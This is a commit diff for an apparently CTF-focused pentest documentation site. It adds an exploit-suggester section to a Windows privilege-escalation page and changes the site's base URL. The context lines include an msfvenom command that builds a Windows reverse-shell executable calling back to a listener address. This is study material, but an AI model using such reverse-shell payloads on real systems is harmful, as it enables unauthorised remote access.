

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/privesc/windows.md, in a window 1280 px wide and 900 px high, scrolled down 341 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
change base URL

````diff
--- a/docs/pentest/privesc/windows.md
+++ b/docs/pentest/privesc/windows.md
@@ -19,6 +19,16 @@ $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.52.128 LPORT=8888 -f exe
 ```
 
 Using [nishang](https://github.com/samratashok/nishang).
+
+## Exploit suggester
+
+```bash
+$ git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
+$ cd Windows-Exploit-Suggester
+$ python2 windows-exploit-suggester.py --update
+$ # python2 -m pip install xlrd==1.1.0
+$ python2 windows-exploit-suggester.py --database 2021-12-11-mssb.xls --ostext 'Windows 2012 R2 (6.3 Build 9600)'
+```
 
 ## Services
 
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -27,8 +27,8 @@ repo_url: https://github.com/xanhacks/ctf-docs
 repo_name: xanhacks/ctf-docs
 
 extra:
-  homepage: https://xanhacks.gitlab.io/ctf-docs/welcome/
-  base_url: https://xanhacks.gitlab.io/ctf-docs
+  homepage: https://docs.xanhacks.xyz/
+  base_url: https://docs.xanhacks.xyz/
   social:
     - icon: fontawesome/brands/twitter
       link: https://twitter.com/xanhacks
````
